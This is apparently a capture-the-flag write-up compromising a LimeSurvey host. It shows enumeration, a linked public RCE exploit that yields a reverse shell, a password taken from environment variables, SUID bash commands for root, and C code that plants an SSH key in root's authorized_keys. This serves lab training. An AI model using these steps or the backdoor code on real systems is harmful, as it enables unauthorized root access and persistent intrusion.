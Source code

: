 # Enumeration
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e9:51:db:ce:d7:b5:54:d4:76:26:d1:32:83:f3:89:8a (ECDSA)
|_  256 03:ec:bc:3c:5c:c7:2b:46:8b:a6:f0:a7:f7:b0:58:b0 (ED25519)
80/tcp open  http    Apache httpd 2.4.56
|_http-title: 403 Forbidden
|_http-server-header: Apache/2.4.56 (Debian)
```

Using gobuster:
![](attachment/12327a8ca05d7d133e33c53ad9b9faa5.png)
There is a limesurvey installer on `/survey`

![](attachment/bfc7623d14e0a7aec0f785912d4ab406.png)

Now trying to install limesurey with our host as the database.

Editing `/etc/mysql/mariadb.conf.d/50-server.cnf`
```
bind-address            = 0.0.0.0
```
so that it is available in all interfaces

To start mysql service:
```
service mysqld start
```
![](attachment/a2c8422abff31225e525275b4d1a986f.png)
Then connect to mysql:
![](attachment/959befb1eb80fbd78a8953f445bf126b.png)
Now we have created the database and completed the setup:

Now using this exploit:
https://github.com/Y1LD1R1M-1337/Limesurvey-RCE/tree/main
and changing config.xml so that the version matches we get a reverse shell:
![](attachment/136025a8e88d192d7b595ec9e1f489b7.png)

Now checking env variables:
![](attachment/462da1dc34675e8c8cb0a79265ac4585.png)
We can use the password to switch to root and to login through ssh to limesvc user.
![](attachment/fa3f10b1317a851bc13507f1b465bdee.png)
Now we can use:
https://github.com/cdk-team/CDK
![](attachment/ec46c94adef44bb466765b4fc56824b0.png)
Now this is unusual af

Being root, and heading to the web path **==/var/www/html/survey==** if we create a test file: hello.txt and then verify with the user limesvc that we are via SSH, in  **==/opt/limesurvey==**, is assembled the same website. And we see that the file created hello.txt is with  ROOT permits:
![](attachment/6f300cf432a201112ec4c94433938bab.png)
So dropping a bash file with SUID:
`cp /bin/bash .`
`chmod u+s ./bash`
Now executing it with `./bash -p`
![](attachment/2cb57b2973f1d6f5d9e61e9191ccb944.png)

Or use:
```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/stat.h>
#include <unistd.h>

int main()
{
    const char *sshPublicKey = "ssh-rsa <REDACTED>";
    const char *sshDirectory = "/root/.ssh";
    const char *authorizedKeysPath = "/root/.ssh/authorized_keys";

    if (geteuid() != 0)
    {
        perror("[x] Error: Program not running as root.\n");
        return 1;
    }

    printf("[+] Running as root!\n");

    if (mkdir(sshDirectory, 0700) != 0)
    {
        perror("[x] Error creating directory. Skipping...\n");
    }

    FILE *file = fopen(authorizedKeysPath, "a");

    if (file == NULL)
    {
        perror("[x] Error opening file\n");
        return 1;
    }

    if (fprintf(file, "%s\n", sshPublicKey) < 0)
    {
        perror("[x] Error writing to file\n");
        fclose(file);
        return 1;
    }

    fclose(file);

    printf("[+] SSH public key successfully added to %s\n", authorizedKeysPath);

    return 0;
}

```